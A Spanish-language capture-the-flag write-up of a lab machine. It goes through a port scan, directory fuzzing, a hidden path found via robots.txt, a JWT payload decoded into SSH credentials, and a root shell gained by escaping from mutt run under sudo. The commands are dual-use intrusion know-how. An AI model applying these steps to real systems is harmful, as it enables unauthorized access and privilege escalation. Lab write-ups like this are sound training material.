Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.135 -oN escaneo
```


Seguida, como sólo tenemos un un puerto abierto, que no corresponde a una web, haremos lo siguiente para ve que podemos extraer de el.

```
curl 192.168.80.135:21
```


Vemos que tiene contendio de texto en el puerto ssh, por la tanto haremos un fuzzing de este puerto.

```
gobuster dir -u http://192.168.80.135:21 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```


Vemos que tenemos un archivo escondido llamado robots, por lo tanto vamos a ver que esconde.

```
curl 192.168.80.135:21/robots.txt
```


Vemos que esconde un directorio oculto, asi que vamos a abrirlo y a ver que esconde.

```
curl 192.168.80.135:21/9a618248b64db62d15b300a07b00580b
```


Vemos que muestra un enlace, que es añadirle una / a la ruta que teniamos puesta. Vamos a entrar a ver que esconde.

```
curl 192.168.80.135:21/9a618248b64db62d15b300a07b00580b/
```


Vemos que nos mustra un contenido cifrado, así que vamos a intentar descifrar el payload del json.

```
echo -n 'eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0' | base64 -d | jq
```


Una vez tenemos las credenciales del usuario, entraremos y sacaremos la flag de usuario.

```
ssh mauro@192.168.80.135 -p21
password: m@uR0123!

ls
cat user.txt
```



Una vez tenemos la flag de usuario, vamos a conseguir la de root, para ello tenemos que escalar privilegios.

```
sudo -l
```


Vemos que tiene un binario con permisos de administrador, entonces vamos a explotarlo para escalar los privilegios.

```
sudo -u root /usr/bin/mutt
```

```
!
/bin/bash
```


Finalmente sacaremos la flag de root.

